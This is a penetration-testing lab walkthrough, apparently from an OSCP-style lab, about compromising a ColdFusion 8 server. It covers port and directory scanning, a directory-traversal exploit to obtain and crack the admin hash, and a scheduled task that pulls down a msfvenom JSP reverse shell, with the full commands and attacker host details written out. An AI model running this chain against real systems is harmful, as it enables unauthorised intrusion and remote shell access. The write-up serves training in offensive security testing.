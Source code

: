 Getting a Foothold

Getting a Foothold

# Works
1. TCP port scan via NMAP using no ping switch (-Pn) reveals one open port 80.

2. Run a non-recursive dirb scan on port 80. Reveals 2 interesting directories: 10.11.1.10/cfdocs and 10.11.1.10/cfide. 

3. Run a Nikto scan and see that there is mention of ColdFusion Administrator link.

4. Run dirb on the ColdFusion Administrator link 10.11.1.10/cfide/administrator/ and discover many directories

5. Research for a default administrator password. Findings indicate that ColdFusion in general is susceptible to directory traversal.

6. Run searchsploit 14641 to find the 'admin' password hash 

7. Crack the ColdFusion 8 'admin' password hash on crackstation.net

8. Login to ColdFusion 8 with admin:pass123

9. Notice that there is a feature to schedule tasks which allows one to download files from a webserver and save them locally. 

10. Verify a path where we can save shellcode using Server Settings -> Mappings

11. Generate a .jsp shell because ColdFusion serves and runs .jsp files
### msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.119.214 LPORT=443 -f raw > shell.jsp
![8533c0d325c0cb6b816dc36ff5007986.png](../../../_resources/4927083854ed49f885fe939d62ee5054.png)

12. Serve shell.jsp on port 80:
### python -m SimpleHTTPServer 80
![ef8504e0b18bd0d3074147b32a0ba2d5.png](../../../_resources/bde568b6b389478998c0d8cef80cfd12.png)

13. Schedule a task in ColdFusion to run our webshell.
![03bad07499fb3d63ece95e3f77975ed6.png](../../../_resources/80ce07bd386040f3bec85c183500516a.png)

14. The following fields must be input, then press 'Submit':
- Task Name: shell
- URL: http://192.168.119.214/shell.jsp
- Publish: Ensure that the 'Save output to a file' is checkmarked
- File: C:\Inetpub\wwwroot\CFIDE\shell.jsp 
**Ensure that the 'File' field does not have any empty spaces before the path name**
![b8924c79c89469d840ee6413d68738a6.png](../../../_resources/40549031d805467a8de54d25a668c76a.png)

15. Verify that shell.jsp was served to our target
![51d5e4d806a933d613f15cffb155e252.png](../../../_resources/08da449b6edb4352b4c55206fca3db67.png)

16. Set up a netcat listener on port 443 to catch the webshell
![fa7d968101f58bb1c507959fd6af22c3.png](../../../_resources/d806078176334e2f8781cfefbea6d8f3.png)

16. Browse to the webshell on the target
### http://10.11.1.10/CFIDE/shell.jsp

17. We now have a shell!
![c1178d1b1b80dd4334b3f1fc59f8c5ed.png](../../../_resources/3e4cb8c3502d4dcf90612d6792697d2e.png)
